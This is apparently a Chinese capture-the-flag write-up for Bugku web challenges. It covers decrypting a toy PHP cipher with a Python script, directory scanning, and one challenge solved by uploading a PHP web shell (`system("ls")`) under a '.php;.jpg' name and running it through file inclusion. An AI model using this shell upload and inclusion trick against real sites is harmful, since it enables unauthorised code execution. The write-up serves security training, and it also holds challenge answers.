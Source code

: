 web部分的37-50题

# PHP_encrypt_1(ISCCCTF)

题目给了一段密文：fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=

还有一个压缩包，解压后发现了下面的php代码

```php
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) { 
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

写出相应的脚本如下，运行下面的解密代码即可得到flag

```python
import base64
import hashlib


def decrypt(b64):
    b64 = str(base64.b64decode(b64), encoding='utf8')  # base64转换后是byte类型数据
    key = 'ISCC'
    m = hashlib.md5()
    m.update(key.encode())
    md = m.hexdigest()
    b64_len = len(b64)
    x = 0
    char = ''
    for i in range(b64_len):  # strlen($str)==strlen($char)==strlen($data)
        if x == len(md):
            x = 0
        char += md[x]
        x += 1
    data = ''
    # 也可不进行正负判断：data += chr((ord(b64[i]) - ord(char[i])+128) % 128)
    for i in range(b64_len):
        d = ord(b64[i]) - ord(char[i])
        if d > 0:  # 进行判断，如果相减小于0，说明需要加上128
            data += chr(d)
        else:
            data += chr(d + 128)
    print(data)


if __name__ == "__main__":
    b64 = 'fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA='
    decrypt(b64)

```

# 文件包含2

查看源码，发现注释中有 upload.php 的提示，于是打开 http://123.206.31.85:49166/upload.php，发现是文件上传。

在php文件里写入 `<script language=php>system("ls")</script>` ，列当前目录，修改后缀名为jpg,如1.php;.jpg,上传成功，如下图所示：

![文件包含2](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB2.png)

访问 http://123.206.31.85:49166/index.php?file=upload/201911191206089664.jpg，提示我们：about hello.php index.php this_is_th3_F14g_154f65sd4g35f4d6f43.txt upload upload.php。

然后访问 http://123.206.31.85:49166/index.php?file=this_is_th3_F14g_154f65sd4g35f4d6f43.txt，得到flag

# sql注入2

题目网站：http://123.206.87.240:8007/web2/

直接在后面加上 flag，即http://123.206.87.240:8007/web2/flag，然后下载了一个文件结果就是flag，但是不知道是什么原因，御剑没有扫出来。

# Trim的日记本

使用御剑扫描出来下面的结果，然后打开发现flag，竟然真的是flag

![Trim的日记本](https://raw.githubusercontent.com/xunzhanggzl/bugkuWU/master/image/web_img/Trim%E7%9A%84%E6%97%A5%E8%AE%B0%E6%9C%AC.png)